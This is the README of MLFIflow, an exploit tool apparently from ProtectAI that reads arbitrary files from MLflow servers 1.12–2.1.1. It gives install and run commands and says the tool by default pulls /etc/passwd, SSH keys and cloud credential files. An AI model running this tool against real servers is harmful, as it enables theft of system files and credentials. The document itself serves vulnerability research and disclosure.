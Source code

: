 # MLFIflow

MLFIflow is an exploit tool for reading arbitrary files from MLflow servers version 1.12 - 2.1.1.

## Installation

```bash
git clone https://github.com/protectai/Snaike-MLflow.git
cd Snaike-MLflow/MLFIflow
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

By default, MLFIflow will attempt to read /etc/passwd from the MLflow server and use the usernames found to search for
SSH keys and cloud credential files.
```bash
python MLFIflow.py -s http://127.0.0.1:5000
```

To specify a wordlist of files to download, use the -f flag:
```bash
python MLFIflow.py -s http://127.0.0.1:5000 -f /path/to/wordlist.txt
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

## License

Copyright 2023 ProtectAI

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

   http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
